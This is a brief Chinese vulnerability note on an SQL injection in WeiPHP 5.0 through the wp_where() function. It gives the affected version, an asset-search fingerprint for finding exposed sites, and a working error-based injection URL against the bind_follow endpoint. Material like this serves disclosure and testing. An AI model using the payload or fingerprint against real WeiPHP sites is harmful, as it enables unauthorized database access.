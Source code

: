 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

  <a-checkbox checked>Weiphp5.0</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>app="WeiPHP"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628497681576-0cd015d8-cfef-4dcc-9f5a-e51a95136802.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```